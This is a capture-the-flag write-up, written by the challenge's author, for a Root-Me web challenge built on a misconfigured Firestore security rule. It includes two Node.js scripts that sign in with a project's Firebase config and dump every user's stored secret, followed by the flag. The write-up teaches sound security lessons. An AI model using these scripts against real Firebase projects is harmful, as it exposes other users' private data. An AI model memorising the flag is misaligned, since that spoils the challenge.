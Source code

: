 ```yaml
---
slug: /articles/base-on-fire
title: Base on fire
date: 25/10/2022
category: Web
thumbnail: thumbnail.png
description: Firestore security rules misconfiguration
author: Elf
ctf: Root-Me CTF
---
```


# Base on fire

## Context

This is a write up for a challenge I created for the Root-Me CTF we organized to celebrate the 10k members on the Discord server. \
Please keep in mind I wasn't a participant but the creator of the challenge, hence the level of details and explainations I am able to provide. \
That was an amazing experience to help organizing this CTF, and I hope people learned a few things and enjoyed my challenges!

## Description

> The secret of my admin's account on my website has leaked, but I have no idea how! Please help me!

## Resolution

Let's go to the website and see what we can do from here.

![](not_logged.png)

To access this home page, we have to be logged in. Let's go ahead and create an account.

![](sign_up.png)

We can now access the home page where there's a feature to store a custom note for our user.

![](note.png)

If we believe the description of the challenge, there must be a way somewhere to access the notes for the other users.

Also, because the page doesn't refresh when we change our note but it's reflected against the DOM, the logic to change the note must be done from client side with an asynchronous request from JavaScript. \
Let's examine what is going on in the client side code handling this.

![](js.png)

It seems there's a lot going on here. By looking at it, we learn two things here:

- the JavaScript code has been bundled by [webpack](https://webpack.js.org/)
- the website is using [Firebase](https://firebase.google.com/)

The challenge name makes sense now: we're facing a Firebase application. Firebase is a BaaS (backend as a service), meaning it provides a full backend and a SDK to connect to it from any front end. It's a very popular choice for making web applications nowadays.

If we search for `apikey` inside this JavaScript file (or if we scroll down for a moment), we can see this piece of code:

![](config.png)

This is where the Firebase configuration is put, it contains everything that is needed to connect to the Firebase backend associated to this application. \
In addition to that, we can see it using Firebase authentication and Firestore. The authentication part is probably responsible for the sign up and login logic we've used before, while Firestore is probably the database used to store the users secrets here. \
If we continue to search for interesting things in this source code, we can find this piece of code that describes the logic of the front end. The collection used to store the secrets is therefore called... `secrets`.

![](db.png)

Now, how is handled access control to limit what can users see inside of the Firestore database? Well, for this purpose, Firebase created the [Firestore Security Rules](https://firebase.google.com/docs/firestore/security/get-started). It's a kind of very simple language that allows you to define who can access what data in what case. \
This is a very critical feature, because if these rules are misconfigured, users could access data that are not for them. \
In our case, given the description hinting that we can access the other users' secrets, we can reuse the Firebase configuration and try to connect to the project's Firestore database to see if we can access the data we want.

Let's try that!

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    const snapshot = await getDocs(collection(db, "secrets"))

    snapshot.forEach(doc => {
        console.log(doc.id, ":", doc.data())
    })
}

solve()
```

Unfortunately, we're rejecting because we don't have the permission.

![](insufficient_perms.png)

It means the security rules prevent a non logged in user from accessing the `secrets` collection. But as we can obviously at least access our own secret when logged in, maybe we can in this case not only access it but also all the other secrets. Let's try it by signing in first and only then fetching the secrets.

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

const email = "osef@osef.fr"
const password = "aaaaaa"

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    auth.onAuthStateChanged(async user => {    
        if (user) {
            // logged in
            const snapshot = await getDocs(collection(db, "secrets"))
    
            snapshot.forEach(doc => {
                console.log(doc.id, ":", doc.data())
            })

            process.exit(0)
        }
    })

    await signInWithEmailAndPassword(auth, email, password)
}

solve()
```

And that's it! The security rules didn't prevent us fro accessing all the secrets in the collection!

![](secrets.png)

You can see the flag being stored as the secret of a user named `admin` whose UID is `1_4m_th3_4dm1n_u1d`, and you also won the right to read all the notes of the participant as a bonus, there are a few funny ones in it. 8)

Flag: `RM{s3cur1ty_rul3s_m1sc0nf1gur4t10n}`